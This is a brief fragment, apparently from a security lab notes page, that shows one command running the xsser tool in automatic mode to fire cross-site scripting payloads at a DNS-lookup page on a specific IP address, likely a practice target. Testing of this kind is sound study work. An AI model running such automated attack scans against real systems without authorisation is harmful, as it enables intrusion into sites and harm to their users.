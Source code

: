 ![xsser](.gitbook/assets/image-20230504234542520.png)

```bash
xsser --url 'http://192.131.167.3/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
```
